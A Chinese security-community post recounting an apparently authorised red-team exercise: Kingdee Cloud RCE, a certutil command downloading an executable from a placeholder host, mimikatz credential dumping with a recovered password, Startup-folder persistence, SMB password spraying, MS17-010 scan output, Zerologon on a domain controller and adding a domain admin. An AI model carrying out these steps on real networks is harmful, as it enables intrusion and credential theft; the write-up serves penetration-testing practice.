



# 某次极为顺畅的实战案例 - 先知社区

某次极为顺畅的实战案例

- - -

真实案例，厚码见谅，有些步骤可能有些忘记，截图并不是很全面。

## 金蝶云星空 RCE

[](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706693600822-57cbaabf-b4e5-4057-8d67-fd30b82ce120.png#averageHue=%23121111&clientId=u9b161eab-9b55-4&from=paste&height=363&id=u35aedbb4&originHeight=544&originWidth=1126&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=69557&status=done&style=none&taskId=u5ecb0b4e-0ed2-43ac-a80c-2ee8e1c8008&title=&width=750.6666666666666)  
shell 之后尝试上线（出网）  
certutil -urlcache -split -f [http://xx.xx.xx.xx/test.exe](http://xx.xx.xx.xx/test.exe) c:\\test.exe  
这里 exe 的位置只是一个示例，正常都是在 tmp 目录下的  
有 CS 的话，就上传 frp[](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706780036582-45c9ed80-bb36-4856-94a7-f8f621dbe962.png#averageHue=%23fafafa&clientId=u72c16cc2-3b51-4&from=paste&height=165&id=ufca44e82&originHeight=247&originWidth=966&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=27901&status=done&style=none&taskId=u1fd655fc-4365-4d91-be01-ad5ec70d580&title=&width=644)

## 本机信息收集

上传 mimikatz 收集密码本  
mimikatz 收集密码  
`mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords full"`[](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706694513939-f2854869-26fd-407e-8a98-742c07a64d7a.png#averageHue=%230e0e0e&clientId=u160b632d-1584-4&from=paste&height=306&id=ubef53b29&originHeight=459&originWidth=970&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=86412&status=done&style=none&taskId=u507a78e2-c5f0-45f2-9cf2-882b8ac784f&title=&width=646.6666666666666)  
get 一个密码，乍一看还有域  
`administrator/@qweadmin5656`  
之后在翻取文件的地方，发现有个密码`HAO&^&123`

## 维权

这里因为是简单的市护网，没人应急，维权就把 exe 的木马文件放到启动目录下  
`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

## 内网横向

之后就是 fscan 的扫描  
先简单的使用密码本进行横向扫描，针对 445 端口进行密码复用的爆破。  
因为 SMB 密码和 RDP 的密码是一样的。并且 SMB 的爆破速度比 RDP 更快。  
这里获取了大概五六个权限，就可以放开去扫了  
[](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706778977874-8702becd-5734-42c2-a92f-9f00a6aa1e64.png#averageHue=%23181717&clientId=u72c16cc2-3b51-4&from=paste&height=428&id=u3f95350d&originHeight=642&originWidth=1003&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=103669&status=done&style=none&taskId=u7d598f7e-2a62-41cf-b964-821c60c1557&title=&width=668.6666666666666)  
内网中扫描到一些 海康威视综合安防管理平台  
[https://github.com/Tas9er/HikvisionIVMSGetShell](https://github.com/Tas9er/HikvisionIVMSGetShell) 换上 Gazila 的 shell  
地址为[https://xxx.xxx.xxx/abcd.jsp;js](https://xxx.xxx.xxx/abcd.jsp;js)  
[](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706779346625-c40e8e3d-1d01-4619-a330-76fb78d34174.png#averageHue=%23000000&clientId=u72c16cc2-3b51-4&from=paste&height=505&id=ucbecc3c4&originHeight=757&originWidth=1305&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=168671&status=done&style=none&taskId=u245d3db0-fa7f-48d6-8e24-99bf08e209c&title=&width=870)  
一堆永恒之蓝，直接 msf 梭哈就行，但是命令执行多了容易崩

```plain
[+] 172.21.3x.3x MS17-010 (Windows Server 2008 R2 Enterprise 7601 Servic
e Pack 1)
[+] 172.21.3x.1x MS17-010 (Windows Server 2016 Standard 14393)
[+] 172.21.3x.x9 MS17-010 (Windows Server 2012 R2 Standard 9600)
[+] 172.21.1x9.2x7 MS17-010 (Windows 7 Ultimate 7601 Service Pack 1)
[+] 172.21.1x0.2x MS17-010 (Windows 7 Enterprise 7600)
[+] 172.21.1x9.6x MS17-010 (Windows 7 Ultimate 7601 Service Pack 1)
[+] 172.21.1x0.1x0 MS17-010 (Windows 7 Professional 7601 Service Pack 1)
[+] 172.21.1x0.1x6 MS17-010 (Windows 7 Professional 7601 Service Pack 1)
[+] 172.21.1x3.2x5 MS17-010 (Windows 7 Ultimate 7601 Service Pack 1)
[+] 172.21.1x0.1x3 MS17-010 (Windows 7 Professional 7601 Service Pack 1)
[+] 172.21.1x2.x34 MS17-010 (Windows 7 Enterprise 7600)
[+] 172.21.1x9.x28 MS17-010 (Windows 7 Ultimate 7601 Service Pack 1)
[+] 172.21.1x0.x63 MS17-010 (Windows 7 Professional 7601 Service Pack 1)
[+] 172.21.3x.5x MS17-010 (Windows Server 2012 R2 Datacenter 9600)
[+] 172.21.1x9.x7 MS17-010 (Windows 7 Ultimate 7601 Service Pack 1)
[+] 172.21.1x0.x32 MS17-010 (Windows 7 Professional 7601 Service Pack 1)
[+] 172.21.3x.x1 MS17-010 (Windows Server 2012 R2 Standard 9600)
```

数据库弱口令，比如 root/root(mysql),sa/123456（mssql），redis 未授权按，大概十几个数据库，几十万数据，就不一一放截图了。  
[](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706779703407-73034212-42d5-4ac1-95d9-f90e0a6644f2.png#averageHue=%23f8f8f8&clientId=u72c16cc2-3b51-4&from=paste&height=527&id=ue8b568f7&originHeight=790&originWidth=1147&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=142317&status=done&style=none&taskId=u3ff17659-50c3-4e7d-a96d-7ae5f65f6d6&title=&width=764.6666666666666)  
如上所见 基本上都是 172 段的机子，在某次 RDP 的时候发现一个双网卡机子，通 192 段和 169.254 段（突破网络限制 1000 分）  
[](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706779932502-cf92b7db-93b3-436f-813a-f899d39635e7.png#averageHue=%23111010&clientId=u72c16cc2-3b51-4&from=paste&height=412&id=u3cca8a8d&originHeight=618&originWidth=1299&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=213309&status=done&style=none&taskId=u79a39e98-17db-4dd8-96b2-c13825c131d&title=&width=866)  
但是这里只梭哈了 192 段。  
由于这个双网卡机子出网，所以就上了个 frp，继续上传 mimikatz 查看密码本。这里过程重复上面的过程了基本上，就不重新描述了。  
有意思的是在扫描的过程中看到了域控。zerologon 直接 getshell  
[](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706780197230-72ca064e-9537-4b32-846c-3d8af4728d8b.png#averageHue=%2334363e&clientId=u72c16cc2-3b51-4&from=paste&height=216&id=u4bc8e3f9&originHeight=324&originWidth=1471&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=275829&status=done&style=none&taskId=u1530c692-656c-40cc-b605-5fac39a535a&title=&width=980.6666666666666)  
[](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706780296062-77f82929-b435-4faf-bdff-705ac0bb6bf2.png#averageHue=%23292c36&clientId=u72c16cc2-3b51-4&from=paste&height=226&id=u0dba93bc&originHeight=339&originWidth=822&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=84465&status=done&style=none&taskId=ufbe971e8-a202-4944-8aa5-891633bb30b&title=&width=548)  
[](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706780325467-e83bc7b3-be26-45b5-bbd7-7592e19d1219.png#averageHue=%23f6f4f1&clientId=u72c16cc2-3b51-4&from=paste&height=419&id=ue90e0d8c&originHeight=628&originWidth=919&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=223628&status=done&style=none&taskId=u51b1c432-e3f3-414c-9c4d-642e0d98917&title=&width=612.6666666666666)  
加个域管理，收工。  
[](https://cdn.nlark.com/yuque/0/2024/png/21762749/1706780376073-345c3df0-8ac5-4b68-92fd-a1a2a6665730.png#averageHue=%23050504&clientId=u72c16cc2-3b51-4&from=paste&height=339&id=ubd00380d&originHeight=508&originWidth=1336&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=109838&status=done&style=none&taskId=u8623506e-dbbe-47e4-8cf3-f53a08fe59c&title=&width=890.6666666666666)  
回头看看这个靶标，拿下的基本上很顺利，并没有什么坑坑绕绕。基本上一直在重复扫描，收集信息，继续扫描的过程
